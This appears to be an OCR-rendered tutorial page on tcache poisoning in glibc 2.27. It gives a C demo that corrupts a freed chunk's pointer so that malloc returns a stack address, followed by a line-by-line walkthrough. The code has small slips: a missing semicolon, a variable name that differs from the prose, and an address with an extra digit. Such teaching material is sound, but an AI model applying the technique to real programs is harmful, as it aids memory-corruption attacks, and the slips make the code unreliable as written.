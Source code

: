 ```c
// gcc -fno-stack-protector -no-pie -g tcache-poisoning-demo.c -o tcache-poisoning-demo
// patchelf --set-interpreter /home/h3rmesk1t/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/ld-linux-x86-64.so.2 --set-rpath /home/h3rmesk1t/glibc-all-in-one/libs/2.27-3ubuntu1_amd64 tcache-poisoning-demo

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);

	size_t stack_var;
	printf("The address we want malloc() to return is %p.\n", (char *)&stack_var);

	intptr_t *a = malloc(128);
	printf("malloc(128): %p\n", a);
	intptr_t *b = malloc(128);
	printf("malloc(128): %p\n", b);

	free(a);
	free(b);

	b[0] = (intptr_t)&stack_var;

	malloc(128)
	intptr_t *c = malloc(128);
	printf("2nd malloc(128): %p\n", c);

	assert((long)&stack_var == (long)c);
	return 0;
}
```

In the above example code
- First use the `setbuf` function for initialization, and then define a `target` variable
- Next, two chunks with `size` of `0x90` (`128+16`) were applied. The two `malloc` pointers gave the pointer variable `a` and the pointer variable `b` respectively.
- Next, release `chunk_a`, then release `chunk_b`, and then modify the pointer array `b[idx]` subscript `0` to the address of the `target` variable
- Then two chunks with size of `0x90` were reapplied, and the `malloc` pointer of the `chunk` that was applied later was assigned to the pointer variable `c`
- Finally print out the pointer variable `c`

First check the address of `stack_var`, which is `0x7ffffffffde30`
